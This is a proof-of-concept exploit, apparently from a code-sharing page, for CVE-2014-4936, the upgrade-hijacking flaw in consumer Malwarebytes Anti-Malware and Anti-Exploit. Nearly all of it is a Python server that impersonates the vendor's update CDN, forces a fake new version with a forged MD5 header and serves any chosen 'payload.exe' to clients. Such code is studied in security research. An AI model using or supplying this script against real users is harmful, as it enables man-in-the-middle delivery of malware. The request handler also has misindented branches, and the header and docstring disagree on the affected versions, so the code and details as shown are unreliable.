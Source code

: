 INFO
----

The upgrade functionality in Malwarebytes Anti-Malware (MBAM) consumer before 2.0.3 and Malwarebytes Anti-Exploit (MBAE) consumer 1.04.1.1012 and earlier allow man-in-the-middle attackers to execute arbitrary code by spoofing the update server and uploading an executable.

POC
---

    #!/usr/bin/env python

    """

     Created by Yonathan Klijnsma
        http://blog.0x3a.com/
        http://twitter.com/ydklijnsma

     Malwarebytes Anti-Malware and Anti-Exploit upgrade hijacking vulnerability
     Note: Only the consumer versions of these products are affected, the business
           versions of these products are not affected as they do not check for
           upgrades against the Malwarebytes CDN.

     Assigned CVE: CVE-2014-4936
     Official CVE Description:
        Malwarebytes Anti-Malware in consumer version 2.0.2 and earlier and
        Malwarebytes Anti-Exploit in consumer version 1.03 and earlier allow
        attackers to execute arbitrary code due to program upgrade hijacking.
        Corporate versions are not affected.

     Malwarebytes Anti-Malware:
        - Vulnerability discovered: June 18th 2014
        - Vulnerability reported: July 16th 2014
        - Vulnerability fixed in version 2.0.3 released on October 3rd 2014
     Malwarebytes Anti-Exploit:
        - Vulnerablity discovered: August 19th 2014
        - Vulnerability reported: August 21st 2014
        - Vulnerability fixed in version 1.04.1.1012 released on September 5th 2014

     This update server works for both products. Redirect DNS towards this
     host for 'data-cdn.mbamupdates.com' and any subdomains of this. Put a
     payload in the same dir as this script and call it 'payload.exe'. This
     payload will be send to the clients when they ask for updates.

    """

    from BaseHTTPServer import BaseHTTPRequestHandler, HTTPServer
    from datetime import datetime, timedelta
    from md5 import md5
    import urlparse
    import base64
    import sys
    import re

    PORT_NUMBER = 80
    UA_PROG_VER_REGEXP = re.compile('base:(\d+\.\d+\.\d+\.\d+)')
    MBAM_VERSION_DOWNLOAD_PATH = ''
    MBAE_VERSION_DOWNLOAD_PATH = ''
    MBAE_FORCE_UPDATE_VERSION = '9.99.9.9999'
    PAYLOAD_PATH = './payload.exe'

    class mbamCDNHandler(BaseHTTPRequestHandler):

        def mbae_program_check(self):
            global MBAE_VERSION_DOWNLOAD_PATH
            global MBAE_FORCE_UPDATE_VERSION

            # Set the version download path so we reconize the URI when the client comes back
            MBAE_VERSION_DOWNLOAD_PATH = '/v2/mbae/consumer/data/mbae-setup-' + MBAE_FORCE_UPDATE_VERSION + '.exe'

            date = datetime.now()
            date_exp = date + timedelta(hours=1)

            self.send_response(200)
            # Not all headers are needed but we'll do it anyway.
            self.send_header('Accept-Ranges', 'bytes')
            self.send_header('Cache-Control', 'max-age=300')
            self.send_header('Content-Type', 'application/octet-stream')
            self.send_header('Date', date.strftime('%a, %d %b %Y %H:%M:%S %Z'))
            self.send_header('Etag', '"0-0000000000000"')
            self.send_header('Expires', date_exp.strftime('%a, %d %b %Y %H:%M:%S %Z'))
            self.send_header('Last-Modified', date.strftime('%a, %d %b %Y %H:%M:%S %Z'))
            self.send_header('Server', 'ECAcc (ams/48C9)')
            self.send_header('Content-Length', str(len(MBAE_FORCE_UPDATE_VERSION)))
            self.send_header('Connection', 'close')
            self.end_headers()

            self.wfile.write(MBAE_FORCE_UPDATE_VERSION)

            print '[+] MBAE Client program version check, enforced update to version {}'.format(MBAE_FORCE_UPDATE_VERSION)

        def mbae_program_update(self):
            global PAYLOAD_PATH
            payload_data = open(PAYLOAD_PATH, 'rb').read()

            date = datetime.now()
            date_exp = date + timedelta(hours=1)

            self.send_response(200)
            # Not all headers are needed but we'll do it anyway.
            self.send_header('Accept-Ranges', 'bytes')
            self.send_header('Cache-Control', 'max-age=300')
            self.send_header('Content-Type', 'application/x-msdos-program')
            self.send_header('Date', date.strftime('%a, %d %b %Y %H:%M:%S %Z'))
            self.send_header('Etag', '"000000-00000000000000"')
            self.send_header('Expires', date_exp.strftime('%a, %d %b %Y %H:%M:%S %Z'))
            self.send_header('Last-Modified', date.strftime('%a, %d %b %Y %H:%M:%S %Z'))
            self.send_header('Server', 'ECAcc (dfw/2794)')
            self.send_header('X-Cache', 'HIT')
            self.send_header('Content-Length', str(len(payload_data)))
            self.end_headers()

            # Payload data goes into the response plain
            self.wfile.write(payload_data)

            print '[+] MBAE Client payload download.'

        def mbam_program_check(self):
            global MBAM_VERSION_DOWNLOAD_PATH

            # Get a version number higher than the current (to force the client to download an update)
            ua = self.headers['User-Agent']
            m = re.search(UA_PROG_VER_REGEXP, ua)
            if(m == None):
                self.send_response(500)
                return

            # Set the version download path so we recognize the URI when the client comes back
            version_response = m.group(0)[5:]
            version_response = str(int(version_response[0]) + 1) + version_response[1:]
            MBAM_VERSION_DOWNLOAD_PATH = '/v0/program/data/mbam-setup-' + version_response + '.exe'

            # We need to put a hash in the response headers
            vhash = md5()
            vhash.update(version_response)

            date = datetime.now()
            date_exp = date + timedelta(hours=1)

            self.send_response(200)
            # Not all headers are needed but we'll do it anyway, important one is the MD5
            self.send_header('Accept-Ranges', 'bytes')
            self.send_header('Cache-Control', 'max-age=300')
            self.send_header('Content-MD5', base64.b64encode(vhash.hexdigest()))
            self.send_header('Date', date.strftime('%a, %d %b %Y %H:%M:%S %Z'))
            self.send_header('Etag', '"0-0000000000000"')
            self.send_header('Expires', date_exp.strftime('%a, %d %b %Y %H:%M:%S %Z'))
            self.send_header('Last-Modified', date.strftime('%a, %d %b %Y %H:%M:%S %Z'))
            self.send_header('Server', 'ECAcc (ams/4890)')
            self.send_header('x-admin', 'tedivm was here.')
            self.send_header('X-Cache', 'HIT')
            self.send_header('x-shameless-plug', 'Looking for a dev job? Send your resume to jobs@malwarebytes.org')
            self.send_header('Content-Length', str(len(version_response)))
            self.send_header('Connection', 'close')
            self.end_headers()

            self.wfile.write(version_response)

            print '[+] MBAM Client program version check: Client version {}, enforced update version {}'.format(m.group(0)[5:], version_response)

        def mbam_program_update(self):
            global PAYLOAD_PATH
            payload_data = open(PAYLOAD_PATH, 'rb').read()

            vhash = md5()
            vhash.update(payload_data)

            date = datetime.now()
            date_exp = date + timedelta(hours=1)

            self.send_response(200)
            # Not all headers are needed but we'll do it anyway, important one is the MD5
            self.send_header('Accept-Ranges', 'bytes')
            self.send_header('Cache-Control', 'max-age=300')
            self.send_header('Content-MD5', base64.b64encode(vhash.hexdigest()))
            self.send_header('Content-Type', 'application/x-msdos-program')
            self.send_header('Date', date.strftime('%a, %d %b %Y %H:%M:%S %Z'))
            self.send_header('Etag', '"000000-00000000000000"')
            self.send_header('Expires', date_exp.strftime('%a, %d %b %Y %H:%M:%S %Z'))
            self.send_header('Last-Modified', date.strftime('%a, %d %b %Y %H:%M:%S %Z'))
            self.send_header('Server', 'ECAcc (dfw/27A5)')
            self.send_header('x-admin', 'tedivm was here.')
            self.send_header('X-Cache', 'HIT')
            self.send_header('x-shameless-plug', 'Looking for a dev job? Send your resume to jobs@malwarebytes.org')
            self.send_header('Content-Length', str(len(payload_data)))
            self.send_header('Connection', 'close')
            self.end_headers()

            # Payload data goes into the response plain
            self.wfile.write(payload_data)

            print '[+] MBAM Client payload download.'

        def do_GET(self):
            if self.path == "/v0/program/mbam.check.program": # MBAM update check
                self.mbam_program_check()
            elif self.path =="/v2/mbae/consumer/version.chk": # MBAE update check
                self.mbae_program_check()
            elif self.path == MBAM_VERSION_DOWNLOAD_PATH: # MBAM update retrieval
                self.mbam_program_update()
        elif self.path == MBAE_VERSION_DOWNLOAD_PATH: # MBAE update retrieval
            self.mbae_program_update()
            else: # Any other requests we just reply 200 OK, it doesn't matter for the client if the actual reply is empty.
                print '[+] Attempt for URI: {}'.format(self.path)
                self.send_response(200)

    def main():
        try:
                server = HTTPServer(('', PORT_NUMBER), mbamCDNHandler)
                print 'Started Malwarebytes CDN simulator.'
                server.serve_forever()

        except KeyboardInterrupt:
                print '^C received, shutting down the web server'
                server.socket.close()

    if __name__ == "__main__":
        sys.exit(main())